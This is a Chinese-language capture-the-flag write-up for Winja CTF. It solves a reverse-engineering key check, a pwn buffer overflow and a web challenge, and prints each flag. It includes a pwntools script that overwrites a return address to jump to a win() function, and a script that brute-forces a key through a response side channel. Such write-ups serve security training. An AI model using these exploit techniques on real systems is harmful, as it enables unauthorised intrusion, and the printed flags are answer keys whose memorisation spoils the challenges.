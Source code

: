 # Winja CTF
###### tags: `CTF`

## Reverse
### Revagers

先使用 strings 來看，發現似乎是要破解密鑰
![](https://i.imgur.com/rR0Jy70.png)

在主程式中可以看到，密鑰長度是 41
![](https://i.imgur.com/JoAaosu.png)

而接著會檢查輸入是否滿足以下判斷，是的話輸入就為 flag
![](https://i.imgur.com/yX66GB0.png)

整理如下，以下字串可以滿足輸入條件
`89fc238534a13e556726cf70f36205cf_ST4r10RD`

拿到 flag
![](https://i.imgur.com/KIFhOiC.png)

flag{89fc238534a13e556726cf70f36205cf_ST4r10RD}

## Pwn
### FreeFall

經典 bof 題

有 backdoor，直接跳到 win 即可

![](https://i.imgur.com/eyqQefO.png)

幾乎沒有任何防禦
![](https://i.imgur.com/6LGKXGJ.png)

return address 在 0x20+0x8 的位置
![](https://i.imgur.com/fUO25IS.png)

![](https://i.imgur.com/xO90Z99.png)

script:
```python=
from pwn import *
context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = "./bof1"

conn = remote("freefall.chall.winja.site", 18967)
#conn = process("./run")
#conn = gdb.debug("./bof1")

conn.recvuntil(b"I will let you overflow me")
payload = b"A" * 32 # payload
payload += b"B" * 8 # RBP
payload += p64(0x401172) # win()
conn.sendline(payload)

conn.interactive()
```

![](https://i.imgur.com/R5gZWag.png)

flag{7fbec6d149f9878499b4acd05e06c692_Did_B4BY_MaK3_YOu_OVeRCrY}

## Web
### Key to Mars

在主頁面上，發現有一個輸入 key 的地方，要我們找出 key
![](https://i.imgur.com/xoiEGIV.png)

隨便輸入後，發現會到 `/flag.php` 的網址，並帶上參數 `name`
https://keytomars.chall.winja.site/flag.php?name=a

觀察發現有些輸入會出現 `word found`，有些則為 `incorrect` 並有較長的載入時間
![](https://i.imgur.com/WDDVJR4.png)

![](https://i.imgur.com/bgcKjkJ.png)

推測當輸入的文字有在 key 之中時，就會有 `word found` 反之 `incorrect`，可以用 side channel 的方式來破解出 key

script:
```python=
import requests
import string

letter = '23467890abcdefghijlortwx{}_'
known = 'flag{7f7729b4990eddc8e82a72d9e8f40639_great_job_with_'
cont = True

while cont:
    found = False
    for x in letter:
        try:
            res = requests.get(f'https://keytomars.chall.winja.site/flag.php?name={known + x}', timeout=2)
        except requests.exceptions.ReadTimeout:
            continue
        if('incorrect' not in res.text):
            known += x
            print(known)
            if(x == '}'):
                cont = False
            found = True
            break
    if(not found):
        print('error! not found symbol')
        break
```

![](https://i.imgur.com/EHR4JSu.png)

flag 為輸入的 key

flag{7f7729b4990eddc8e82a72d9e8f40639_great_job_with_regex}